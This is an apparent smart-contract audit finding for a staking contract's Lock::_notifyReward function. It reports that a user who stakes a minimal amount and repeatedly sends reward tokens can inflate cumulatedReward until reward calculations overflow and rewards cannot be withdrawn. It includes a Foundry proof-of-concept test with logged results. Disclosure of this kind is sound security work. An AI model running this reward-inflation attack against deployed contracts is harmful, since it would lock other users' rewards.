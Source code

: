 Raspy Golden Pheasant

medium

# `Lock::_notifyreward()` Malicious users use Lightning Loans to quickly accumulate rewarding tokens `reward.cumulatedreward` . In the end, the reward of the user cannot withdraw the reward

## Summary
`Lock::_notifyreward()` Malicious users use Lightning Loans to quickly accumulate rewarding tokens `reward.cumulatedreward` . In the end, the reward of the user cannot withdraw the reward
## Vulnerability Detail
```js
    function _notifyReward(address _rewardToken, uint256 reward) internal {
        if (lockedSupplyWithMultiplier == 0)
            return; // If there is no locked supply with multiplier, exit without adding rewards (prevents division by zero).


        Reward storage r = rewardData[_rewardToken]; // Accesses the reward structure for the specified token.
@>        uint256 newReward = reward * 1e36 / lockedSupplyWithMultiplier; // Calculates the reward per token, scaled up for precision.
@>        r.cumulatedReward += newReward; // Updates the cumulative reward for the token.
        r.lastUpdateTime = block.timestamp; // Sets the last update time to now.
        r.balance += reward; // Increments the balance of the token by the new reward amount.
    }
```
### Poc
When the administrator adds Token, malicious users can quickly accumulate `R.Cumulatedreward`.Users cannot extract the reward
Please add the code to `PenalTyCalCulations.t.sol` and execute
```js
    function testCumulatedReward() public {   
        ///////////////////// 
        //   deployer set  // 
        ///////////////////// 
        vm.startPrank(deployer);
        // deployer setDefaultRelockTime
        lock.setDefaultRelockTime(30 days);
        // deployer setLockTypeInfo
        uint256[] memory newLockPeriod = new uint256[](3);
        uint256[] memory newLockMultiplier = new uint256[](3);
        newLockPeriod[0] = 30 days;
        newLockPeriod[1] = 60 days;
        newLockPeriod[2] = 120 days;
        newLockMultiplier[0] = 1;
        newLockMultiplier[1] = 2;
        newLockMultiplier[2] = 3;
        lock.setLockTypeInfo(newLockPeriod,newLockMultiplier);
        _rewardToken.transfer(user1,10001e18);
        vm.stopPrank();
        //////////////////////
        ///    attacker     //
        //////////////////////
        vm.startPrank(user1);
        lock.stake(1, user1, 0);
        for (uint256 i = 0; i < 20; ++i) {
            _rewardToken.transfer(address(lock),10000e18);
            lock.notifyUnseenReward(rewardTokens);
            lock.getAllRewards();
        }
        vm.stopPrank();

        console.log("user1 rewardToken balance after attack:",_rewardToken.balanceOf(user1));
        console.log("user1 stakingToken balance after attack", _stakingToken.balanceOf(user1));
        console.log("getRewardData.cumulatedReward",lock.getRewardData(address(_rewardToken))); // Help function, used to obtain `_rewardtoken.cumulatedreward`

        // lock.getRewardData(address(_rewardToken)) * 1e18  -> panic: arithmetic underflow or overflow (0x11)
    }
//    [PASS] testCumulatedReward() (gas: 2052823)
//Logs:
//  user1 rewardToken balance after attack: 10001000000000000000000
//  user1 stakingToken balance after attack 999999999999999999999
//  getRewardData.cumulatedReward 200000000000000000000000000000000000000000000000000000000000
```
## Impact
`Lock::_notifyreward()` Malicious users use Lightning Loans to quickly accumulate rewarding tokens `reward.cumulatedreward` . In the end, the reward of the user cannot withdraw the reward
## Code Snippet
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L488-L497
## Tool used

Manual Review

## Recommendation
Limit user pledge amount


